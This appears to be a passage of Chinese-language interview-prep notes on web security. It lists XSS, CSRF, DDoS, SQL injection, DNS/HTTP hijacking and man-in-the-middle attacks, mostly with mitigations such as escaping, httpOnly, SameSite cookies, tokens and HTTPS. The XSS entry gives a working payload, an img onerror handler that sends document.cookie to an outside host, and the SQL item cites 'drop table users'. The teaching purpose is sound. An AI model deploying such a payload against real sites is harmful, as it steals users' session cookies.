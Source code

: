 效果如下：

![](https://tva1.sinaimg.cn/large/008i3skNgy1gwttk04jmdj31d50u0af3.jpg)

![](https://tva1.sinaimg.cn/large/008i3skNgy1gwttklokizj30oo09m3zz.jpg)

服务器拦截成功！！

## 说一下你知道的网络攻击

> 1. XSS: 攻击者输入评论 => `<img src="123" onerror="location.href='http://mrkleo.run:7788/' + document.cookie">`

措施：

1. 输入检查：`<,>`

2. 输出检查：从服务器返回的数据，需要对其进行检查

3. 转译 `<,>`等特殊符号

4. 设置httpOnly = true，使其无法通过js获取cookie

> 2. CSRF: 攻击者获取用户cookie和服务器对应接口api，然后修改服务器数据库，实现转账等操作

场景：用户在登陆银行网站后，通过垃圾链接点进攻击者网站，实现请求

措施：

1. 在服务端查看请求的源 refer 是否是本网站的

2. token验证（jwt）

3. 验证码

4. 给Cookie设置SameSite属性

- strict（严格限制第三方Cookie）

- Lax（可以放宽一些请求，例如get请求、预加载、a标签链接）

- None

> 3. DDos：攻击者利用海量的僵尸服务器攻击源站，占用源站服务器资源，使其他用户无法访问到源站

> 4. SQL注入

攻击者在HTTP请求中注入恶意SQL命令，例如，drop table users，服务器用请求参数构造数据库SQL命令时，恶意SQL被执行。

**解决**：后台处理，例如，使用预编译语句PreparedStatement进行预处理。

> 5. 网络劫持

- DNS劫持（涉嫌违法）：修改运行商的 DNS 记录，重定向到其他网站。DNS 劫持是违法的行为，目前 DNS 劫持已被监管，现在很少见 DNS 劫持
- HTTP劫持：前提有 HTTP 请求。因 HTTP 是明文传输，运营商便可借机修改 HTTP 响应内容（如加广告）。

措施：全站 HTTPS

> 6. 中间人攻击

## TCP三次握手，四次挥手（为什么是三次？）
